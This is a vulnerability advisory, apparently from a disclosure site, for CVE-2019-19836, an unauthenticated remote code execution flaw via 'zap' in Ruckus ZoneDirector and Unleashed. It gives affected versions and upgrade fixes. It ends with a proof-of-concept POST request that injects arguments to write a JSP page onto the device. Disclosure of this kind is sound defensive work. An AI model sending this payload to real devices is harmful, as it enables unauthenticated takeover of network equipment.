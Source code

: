 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

mitigation: 
     '- 9.10.x: Upgrade to 9.10.2.0.84

    - 9.12.x: Upgrade to 9.12.3.0.136

    - 9.13.x: Upgrade to 10.0.1.0.90

    - 10.0.x: Upgrade to 10.0.1.0.90

    - 10.1.x: Upgrade to 10.1.2.0.275

    - 10.2.x: Upgrade to 10.2.1.0.147

    - 10.3.x: Upgrade to 10.3.1.0.21

    - 200.6 and before: Upgrade to 200.7.10.202.94

    - 200.7: Upgrade to 200.7.10.202.94'

severity: 'critical'
alephid: ALEPH-2019006
cve: CVE-2019-19836
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Remote code execution vulnerability via zap'

---
```

Remote code execution vulnerability in zap caused by insufficient input validation.

`zap` executable is reachable without authentication. Due to insufficient input validation, unintended arguments can be used to write a page which is vulnerable to one of the following command injection vulnerabilities:
-  [CVE-2019-19838](/vulns/aleph-2019008)
-  [CVE-2019-19839](/vulns/aleph-2019009)
-  [CVE-2019-19841](/vulns/aleph-2019011)
-  [CVE-2019-19842](/vulns/aleph-2019012)

## Proof Of Concept ##
SSRF POST request example
``` html
POST /tools/_rcmdstat.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded charset=UTF-8
Content-Length: 310

<ajax-request action='docmd' xcmd='wc' updater='system.1568118269965.3208' comp='zapd'>
        <xcmd cmd='wc' comp='zapd' wcid=1 client='192.168.0.1' tool='zap-up' zap-type='udp' server='{tx_station} -R -L/web/uploaded/index.jsp -T<%Delegate("AjaxCmdStat" -Ssession["cid"]);%>' syspmtu=65500 />
</ajax-request>

```
